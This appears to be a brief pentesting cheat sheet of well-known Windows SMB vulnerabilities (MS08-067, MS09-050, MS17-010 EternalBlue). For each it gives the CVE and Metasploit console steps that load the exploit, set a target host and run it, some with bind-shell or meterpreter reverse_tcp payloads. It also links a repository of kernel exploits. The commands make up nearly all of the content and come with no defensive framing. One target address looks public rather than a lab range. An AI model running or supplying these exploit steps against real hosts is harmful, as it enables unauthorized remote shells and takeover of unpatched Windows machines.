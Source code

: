 ```yaml
---
description: Common smb vulns
---
```


# SMB Vulnerabilities

## MS08-067 

CVE-2008-4250 

Metasploit: 

```text
msf > search ms08_067 
msf > use exploit/windows/smb/ms08_067_netapi 
msf  exploit(ms08_067_netapi) > set RHOST 192.168.229.137 
msf  exploit(ms08_067_netapi) > set payload windows/shell_bind_tcp 
msf  exploit(ms08_067_netapi) > exploit 
```

## MS09-050 

CVE-2009-2526 

Metasploit: 

```text
msf > search MS09_050 
msf > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index  
msf exploit(ms09_050_smb2_negotiate_func_index) > options 
msf exploit(ms09_050_smb2_negotiate_func_index) > set payload windows/meterpreter/reverse_tcp 
msf exploit(ms09_050_smb2_negotiate_func_index) > set rhost 110.196.193.102 
msf exploit(ms09_050_smb2_negotiate_func_index) > run 
```

Exploits: 

[https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-050](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-050) 

## MS17-010 

CVE-2017-0143 

Metasploit: 

```text
msf > use exploit/windows/smb/ms17_010_eternalblue 
msf exploit(ms17_010_eternalblue) > set rhost 10.10.1.13 
msf exploit(ms17_010_eternalblue) > run 
```



